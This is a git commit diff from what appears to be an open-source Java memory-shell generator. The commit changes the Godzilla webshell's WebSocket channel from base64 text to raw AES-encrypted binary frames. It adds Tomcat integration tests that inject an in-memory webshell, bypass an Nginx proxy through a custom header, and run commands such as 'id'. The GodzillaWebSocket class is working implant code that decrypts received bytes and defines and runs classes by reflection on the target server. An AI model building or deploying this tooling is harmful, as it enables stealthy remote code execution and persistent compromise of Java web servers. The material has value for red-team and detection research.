

refactor: change godzilla websocket base64 to raw

diff --git a/web/app/components/memshell/results/basic-info.tsx b/web/app/components/memshell/results/basic-info.tsx
@@ -111,7 +111,11 @@ export function BasicInfo({
               />
               <CopyableField
                 label={t("shellToolConfig.godzilla.encryptor")}
-                text="JAVA_AES_BASE64"
+                text={
+                  generateResult?.shellConfig.shellType.includes("WebSocket")
+                    ? "JAVA_WEBSOCKET_AES_RAW"
+                    : "JAVA_AES_BASE64"
+                }
               />
               <CopyableField
                 label={t("shellToolConfig.godzilla.header")}

diff --git a/integration-test/src/test/java/com/reajason/javaweb/integration/memshell/tomcat/Tomcat10WebSocketBypassNginxTest.java b/integration-test/src/test/java/com/reajason/javaweb/integration/memshell/tomcat/Tomcat10WebSocketBypassNginxTest.java
@@ -1,12 +1,14 @@
 package com.reajason.javaweb.integration.memshell.tomcat;
 
 import com.reajason.javaweb.godzilla.BlockingJavaWebSocketClient;
+import com.reajason.javaweb.godzilla.GodzillaManager;
 import com.reajason.javaweb.integration.ShellAssertion;
 import com.reajason.javaweb.memshell.MemShellResult;
 import com.reajason.javaweb.memshell.ServerType;
 import com.reajason.javaweb.memshell.ShellTool;
 import com.reajason.javaweb.memshell.ShellType;
 import com.reajason.javaweb.memshell.config.CommandConfig;
+import com.reajason.javaweb.memshell.config.GodzillaConfig;
 import com.reajason.javaweb.memshell.config.ShellToolConfig;
 import com.reajason.javaweb.packer.Packers;
 import lombok.extern.slf4j.Slf4j;
@@ -20,6 +22,7 @@ import org.testcontainers.junit.jupiter.Container;
 import org.testcontainers.junit.jupiter.Testcontainers;
 
 import java.io.File;
+import java.io.IOException;
 
 import static org.junit.jupiter.api.Assertions.assertThrows;
 import static org.junit.jupiter.api.Assertions.assertTrue;
@@ -61,6 +64,43 @@ public class Tomcat10WebSocketBypassNginxTest {
         // connect by valve bypass will success
         String response = BlockingJavaWebSocketClient.sendRequestWaitResponseWithHeader(shellUrl, "id", commandConfig.getHeaderName(), commandConfig.getHeaderValue());
         assertTrue(response.contains("uid="));
+    }
+
+
+    @Test
+    public void testGodzillaWs() {
+        String url = getUrl();
+        String server = ServerType.TOMCAT;
+        String serverVersion = "Unknown";
+        int targetJdkVersion = Opcodes.V1_8;
+        String shellType = ShellType.JAKARTA_BYPASS_NGINX_WEBSOCKET;
+        String shellTool = ShellTool.Godzilla;
+        Packers packer = Packers.Base64;
+        Pair<String, String> urls = ShellAssertion.getUrls(url, shellType, shellTool, packer);
+        String shellUrl = urls.getLeft();
+        String urlPattern = urls.getRight();
+        ShellToolConfig shellToolConfig = ShellAssertion.getShellToolConfig(shellType, shellTool, packer);
+        MemShellResult generateResult = ShellAssertion.generate(urlPattern, server, serverVersion, shellType, shellTool, targetJdkVersion, shellToolConfig, packer);
+        ShellAssertion.packerResultAndInject(generateResult, url, shellTool, shellType, packer, null);
+        GodzillaConfig godzillaConfig = (GodzillaConfig) generateResult.getShellToolConfig();
+        // direct connect ws will cause failed
+        assertThrows(IllegalStateException.class, () -> {
+            try (GodzillaManager godzillaManager = GodzillaManager.builder()
+                    .entrypoint(shellUrl).pass(godzillaConfig.getPass())
+                    .key(godzillaConfig.getKey()).build()) {
+                godzillaManager.start();
+            }
+        }, "WebSocket connection is not open.");
+        // connect by valve bypass will success
+        try (GodzillaManager godzillaManager = GodzillaManager.builder()
+                .entrypoint(shellUrl).pass(godzillaConfig.getPass())
+                .key(godzillaConfig.getKey()).header(godzillaConfig.getHeaderName()
+                        , godzillaConfig.getHeaderValue()).build()) {
+            assertTrue(godzillaManager.start());
+            assertTrue(godzillaManager.test());
+        } catch (IOException e) {
+            e.printStackTrace();
+        }
     }
 
     public static String getUrl() {

diff --git a/integration-test/src/test/java/com/reajason/javaweb/integration/memshell/tomcat/Tomcat8WebSocketBypassNginxTest.java b/integration-test/src/test/java/com/reajason/javaweb/integration/memshell/tomcat/Tomcat8WebSocketBypassNginxTest.java
@@ -1,12 +1,14 @@
 package com.reajason.javaweb.integration.memshell.tomcat;
 
 import com.reajason.javaweb.godzilla.BlockingJavaWebSocketClient;
+import com.reajason.javaweb.godzilla.GodzillaManager;
 import com.reajason.javaweb.integration.ShellAssertion;
 import com.reajason.javaweb.memshell.MemShellResult;
 import com.reajason.javaweb.memshell.ServerType;
 import com.reajason.javaweb.memshell.ShellTool;
 import com.reajason.javaweb.memshell.ShellType;
 import com.reajason.javaweb.memshell.config.CommandConfig;
+import com.reajason.javaweb.memshell.config.GodzillaConfig;
 import com.reajason.javaweb.memshell.config.ShellToolConfig;
 import com.reajason.javaweb.packer.Packers;
 import lombok.extern.slf4j.Slf4j;
@@ -20,6 +22,7 @@ import org.testcontainers.junit.jupiter.Container;
 import org.testcontainers.junit.jupiter.Testcontainers;
 
 import java.io.File;
+import java.io.IOException;
 
 import static org.junit.jupiter.api.Assertions.assertThrows;
 import static org.junit.jupiter.api.Assertions.assertTrue;
@@ -69,5 +72,41 @@ public class Tomcat8WebSocketBypassNginxTest {
         // connect by valve bypass will success
         String response = BlockingJavaWebSocketClient.sendRequestWaitResponseWithHeader(shellUrl, "id", commandConfig.getHeaderName(), commandConfig.getHeaderValue());
         assertTrue(response.contains("uid="));
+    }
+
+    @Test
+    public void testGodzillaWs() {
+        String url = getUrl();
+        String server = ServerType.TOMCAT;
+        String serverVersion = "Unknown";
+        int targetJdkVersion = Opcodes.V1_8;
+        String shellType = ShellType.BYPASS_NGINX_WEBSOCKET;
+        String shellTool = ShellTool.Godzilla;
+        Packers packer = Packers.Base64;
+        Pair<String, String> urls = ShellAssertion.getUrls(url, shellType, shellTool, packer);
+        String shellUrl = urls.getLeft();
+        String urlPattern = urls.getRight();
+        ShellToolConfig shellToolConfig = ShellAssertion.getShellToolConfig(shellType, shellTool, packer);
+        MemShellResult generateResult = ShellAssertion.generate(urlPattern, server, serverVersion, shellType, shellTool, targetJdkVersion, shellToolConfig, packer);
+        ShellAssertion.packerResultAndInject(generateResult, url, shellTool, shellType, packer, null);
+        GodzillaConfig godzillaConfig = (GodzillaConfig) generateResult.getShellToolConfig();
+        // direct connect ws will cause failed
+        assertThrows(IllegalStateException.class, () -> {
+            try (GodzillaManager godzillaManager = GodzillaManager.builder()
+                    .entrypoint(shellUrl).pass(godzillaConfig.getPass())
+                    .key(godzillaConfig.getKey()).build()) {
+                godzillaManager.start();
+            }
+        }, "WebSocket connection is not open.");
+        // connect by valve bypass will success
+        try (GodzillaManager godzillaManager = GodzillaManager.builder()
+                .entrypoint(shellUrl).pass(godzillaConfig.getPass())
+                .key(godzillaConfig.getKey()).header(godzillaConfig.getHeaderName()
+                        , godzillaConfig.getHeaderValue()).build()) {
+            assertTrue(godzillaManager.start());
+            assertTrue(godzillaManager.test());
+        } catch (IOException e) {
+            e.printStackTrace();
+        }
     }
 }

diff --git a/tools/godzilla/src/main/java/com/reajason/javaweb/godzilla/GodzillaManager.java b/tools/godzilla/src/main/java/com/reajason/javaweb/godzilla/GodzillaManager.java
@@ -17,6 +17,7 @@ import javax.crypto.Cipher;
 import javax.crypto.spec.SecretKeySpec;
 import java.io.*;
 import java.net.URLDecoder;
+import java.nio.ByteBuffer;
 import java.nio.charset.StandardCharsets;
 import java.util.HashMap;
 import java.util.Map;
@@ -177,6 +178,7 @@ public class GodzillaManager implements Closeable {
         return client.newCall(builder.build()).execute();
     }
 
+    @SneakyThrows
     public boolean start() {
         byte[] bytes = generateGodzilla();
         if (isHttp()) {
@@ -189,19 +191,12 @@ public class GodzillaManager implements Closeable {
                     return true;
                 }
                 System.out.println(response.body().string().trim());
-            } catch (IOException e) {
-                e.printStackTrace();
             }
         }
         if (isWs()) {
-            try {
-                byte[] aes = aes(this.key, bytes, true);
-                String base64String = Base64.encodeBase64String(aes);
-                BlockingJavaWebSocketClient.sendRequestWaitResponse(this.entrypoint, base64String);
-                return true;
-            } catch (Exception e) {
-                e.printStackTrace();
-            }
+            byte[] aes = aes(this.key, bytes, true);
+            BlockingJavaWebSocketClient.sendRequestWaitResponse(this.entrypoint, ByteBuffer.wrap(aes), headers);
+            return true;
         }
         return false;
     }
@@ -213,11 +208,9 @@ public class GodzillaManager implements Closeable {
             try (Response response = post(bytes)) {
                 if (response.isSuccessful()) {
                     ResponseBody body = response.body();
-                    if (body != null) {
-                        String resultFromRes = getResultFromRes(body.string(), this.key, this.md5);
-                        System.out.println(resultFromRes);
-                        return "ok".equals(resultFromRes);
-                    }
+                    String resultFromRes = getResultFromRes(body.string(), this.key, this.md5);
+                    System.out.println(resultFromRes);
+                    return "ok".equals(resultFromRes);
                 }
                 return false;
             } catch (IOException e) {
@@ -228,10 +221,9 @@ public class GodzillaManager implements Closeable {
 
         if (isWs()) {
             byte[] aes = aes(this.key, bytes, true);
-            String base64String = Base64.encodeBase64String(aes);
-            String response = BlockingJavaWebSocketClient.sendRequestWaitResponse(this.entrypoint, base64String);
-            if(StringUtils.isNoneBlank(response)){
-                byte[] x = aes(key, Base64.decodeBase64(response), false);
+            byte[] response = BlockingJavaWebSocketClient.sendRequestWaitResponse(this.entrypoint, ByteBuffer.wrap(aes), headers);
+            if (response != null) {
+                byte[] x = aes(key, response, false);
                 GZIPInputStream gzipInputStream = new GZIPInputStream(new ByteArrayInputStream(x));
                 return "ok".equals(IOUtils.toString(gzipInputStream, StandardCharsets.UTF_8));
             }

diff --git a/generator/src/main/java/com/reajason/javaweb/memshell/shelltool/godzilla/GodzillaWebSocket.java b/generator/src/main/java/com/reajason/javaweb/memshell/shelltool/godzilla/GodzillaWebSocket.java
@@ -12,21 +12,22 @@ import java.lang.reflect.Field;
 import java.lang.reflect.Method;
 import java.net.URL;
 import java.net.URLClassLoader;
+import java.nio.ByteBuffer;
 
 /**
  * @author ReaJason
  * @since 2025/5/9
  */
-public class GodzillaWebSocket extends Endpoint implements MessageHandler.Whole<String> {
+public class GodzillaWebSocket extends Endpoint implements MessageHandler.Whole<ByteBuffer> {
     public static String key;
     private Session session;
     private static Class<?> payload;
 
     @Override
-    public void onMessage(String message) {
+    public void onMessage(ByteBuffer byteBuffer) {
         byte[] result = null;
         try {
-            byte[] data = base64Decode(message);
+            byte[] data = byteBuffer.array();
             data = x(data, false);
             if (payload == null || (data[0] == -54 && data[1] == -2)) {
                 payload = reflectionDefineClass(data);
@@ -44,7 +45,7 @@ public class GodzillaWebSocket extends Endpoint implements MessageHandler.Whole<
             result = getErrorMessage(e).getBytes();
         }
         try {
-            session.getBasicRemote().sendText(base64Encode(x(result, true)));
+            session.getBasicRemote().sendBinary(ByteBuffer.wrap(x(result, true)));
         } catch (Exception ignored) {
         }
     }
@@ -81,28 +82,6 @@ public class GodzillaWebSocket extends Endpoint implements MessageHandler.Whole<
     public void onOpen(final Session session, EndpointConfig config) {
         this.session = session;
         session.addMessageHandler(this);
-    }
-
-    @SuppressWarnings("all")
-    public static String base64Encode(byte[] bs) throws Exception {
-        try {
-            Object encoder = Class.forName("java.util.Base64").getMethod("getEncoder").invoke(null);
-            return (String) encoder.getClass().getMethod("encodeToString", byte[].class).invoke(encoder, bs);
-        } catch (Exception var6) {
-            Object encoder = Class.forName("sun.misc.BASE64Encoder").newInstance();
-            return (String) encoder.getClass().getMethod("encode", byte[].class).invoke(encoder, bs);
-        }
-    }
-
-    @SuppressWarnings("all")
-    public static byte[] base64Decode(String bs) throws Exception {
-        try {
-            Object decoder = Class.forName("java.util.Base64").getMethod("getDecoder").invoke(null);
-            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, bs);
-        } catch (Exception var6) {
-            Object decoder = Class.forName("sun.misc.BASE64Decoder").newInstance();
-            return (byte[]) decoder.getClass().getMethod("decodeBuffer", String.class).invoke(decoder, bs);
-        }
     }
 
     public byte[] x(byte[] s, boolean m) throws Exception {

diff --git a/tools/godzilla/src/main/java/com/reajason/javaweb/godzilla/BlockingJavaWebSocketClient.java b/tools/godzilla/src/main/java/com/reajason/javaweb/godzilla/BlockingJavaWebSocketClient.java
@@ -6,6 +6,7 @@ import org.java_websocket.handshake.ServerHandshake;
 
 import java.net.URI;
 import java.nio.ByteBuffer;
+import java.util.Map;
 import java.util.concurrent.CountDownLatch;
 import java.util.concurrent.TimeUnit;
 import java.util.concurrent.atomic.AtomicReference;
@@ -20,6 +21,10 @@ public class BlockingJavaWebSocketClient extends WebSocketClient {
 
     public BlockingJavaWebSocketClient(URI serverUri) {
         super(serverUri);
+    }
+
+    public BlockingJavaWebSocketClient(URI serverUri, Map<String, String> httpHeaders) {
+        super(serverUri, httpHeaders);
     }
 
     @Override
@@ -130,6 +135,12 @@ public class BlockingJavaWebSocketClient extends WebSocketClient {
     @SneakyThrows
     public static byte[] sendRequestWaitResponse(String entrypoint, ByteBuffer message) {
         BlockingJavaWebSocketClient blockingJavaWebSocketClient = new BlockingJavaWebSocketClient(URI.create(entrypoint));
+        return blockingJavaWebSocketClient.sendRequest(message);
+    }
+
+    @SneakyThrows
+    public static byte[] sendRequestWaitResponse(String entrypoint, ByteBuffer message, Map<String, String> httpHeaders) {
+        BlockingJavaWebSocketClient blockingJavaWebSocketClient = new BlockingJavaWebSocketClient(URI.create(entrypoint), httpHeaders);
         return blockingJavaWebSocketClient.sendRequest(message);
     }
 
